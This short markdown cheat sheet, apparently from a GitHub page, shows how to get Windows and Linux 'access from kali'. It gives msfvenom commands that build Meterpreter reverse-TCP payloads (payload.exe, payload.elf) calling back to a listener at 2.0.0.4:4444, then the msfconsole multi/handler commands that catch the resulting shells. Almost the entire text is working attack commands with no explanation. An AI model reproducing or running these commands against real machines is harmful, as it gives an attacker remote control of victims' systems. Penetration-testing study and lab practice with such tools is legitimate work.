 ## For windows access from kali 
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f exe -o payload.exe

msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444
exploit
```

## For linux access from kali
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f elf -o payload.elf

msfconsole

use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444
exploit
```
